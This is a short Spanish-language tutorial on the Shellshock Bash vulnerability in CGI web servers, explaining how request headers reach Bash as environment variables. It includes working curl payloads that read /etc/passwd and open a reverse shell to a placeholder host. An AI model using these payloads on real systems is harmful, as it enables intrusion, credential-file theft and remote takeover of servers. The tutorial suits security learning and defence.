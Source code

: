 

## Introducción
El ataque Shellshock reveló una vulnerabilidad crítica en servidores web, como Apache, que soportan la Common Gateway Interface (CGI). Esta interfaz permite a programas externos utilizar datos del servidor web, lo que incluye la famosa carpeta `cgi-bin`, designada para alojar scripts que interactúan con el servidor web.

## Detalles de la Vulnerabilidad
La explotación remota de Shellshock no se limita a archivos con extensión `.cgi`, sino a aquellos que interactúan con la Bash mediante variables de entorno, aprovechando la funcionalidad del CGI. Esto significa que cualquier información recibida en una solicitud del cliente, como el User-Agent o Referer, se almacena como variables de entorno para su uso por parte de programas o scripts externos. Por esta razón, los archivos en `cgi-bin` son susceptibles a Shellshock.

## Métodos de Explotación
En algunos casos, si no se ejecuta directamente un comando, es necesario utilizar el prefijo `echo` antes del comando a ejecutar. En situaciones donde un solo `echo` no es suficiente, se deben utilizar dos `echo` consecutivos para lograr la ejecución del comando deseado.

## Ejemplos de Ejecución de Comandos

### Visualizar contenido de /etc/passwd

```bash
curl -s -A "() { :;};echo; /bin/cat /etc/passwd" http://servidor/cgi-bin/vulnerable.cgi
```

### Reverse Shell

```bash
curl -A "() { :;};echo; /bin/bash -i >& /dev/tcp/ip/puerto 0>&1" http://servidor/cgi-bin/vulnerable.cgi
```



Estos ejemplos ilustran cómo un atacante puede aprovechar la vulnerabilidad Shellshock para ejecutar comandos maliciosos en el servidor comprometido. Es fundamental aplicar parches de seguridad y mantener los sistemas actualizados para protegerse contra este tipo de amenazas.